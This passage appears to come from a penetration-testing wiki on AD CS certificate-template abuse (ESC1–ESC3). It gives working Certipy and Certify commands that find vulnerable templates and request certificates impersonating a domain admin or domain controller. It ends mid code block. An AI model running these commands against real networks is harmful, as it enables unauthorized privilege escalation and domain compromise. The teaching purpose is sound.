 ## Theory
AD CS Enterprise CAs issue certificates with settings defined by AD objects known as certificate templates. These templates are collections of enrollment policies and predefined certificate settings and contain things like “How long is this certificate valid for?”, “What is the certificate used for?”, “How is the subject specified?”, “Who is allowed to request a certificate?”, and a myriad of other settings
## Exploit
### ESC1: Template allows SAN
When a certificate template allows to specify a subjectAltName, it is possible to request a certificate for another user. It can be used for privileges escalation if the EKU specifies Client Authentication or ANY.
=== "UNIX-like"
    From UNIX-like systems, Certipy (Python) can be used to enumerate for, and conduct, the ESC1 and ESC2 scenarios.
    ```bash
    #To specify a user account in the SAN
    certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

    #To specify a computer account in the SAN
    certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' -dns 'dc.domain.local'
    ```
=== "Windows"
    From Windows systems, the Certify (C#) tool can be used.
    ```bash
    # Find vulnerable/abusable certificate templates using default low-privileged group
    Certify.exe find /vulnerable

    # Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
    Certify.exe find /vulnerable /currentuser
    ```
    Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as `SAN (subjectAltName)`.
    ```bash
    Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
    ```
The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate.
### ESC2: Any purpose EKU
When a certificate template specifies the Any Purpose EKU, or no EKU at all, the certificate can be used for anything. ESC2 can't be abused like ESC1 if the requester can't specify a SAN, however, it can be abused like ESC3 to use the certificate as requirement to request another one on behalf of any user.
### ESC3: Certificate Agent EKU
When a certificate template specifies the Certificate Request Agent EKU, it is possible to use the issued certificate from this template to request another certificate on behalf of any user.
=== "UNIX-like"
    From UNIX-like systems, Certipy (Python) can be used to enumerate for, and conduct, the ESC3 scenario. It is possible to output the result in an archive that can be uploaded in Bloodhound.
    ```bash
    certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -vulnerable
    ```
    Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the Certificate Request Agent EKU
    ```bash
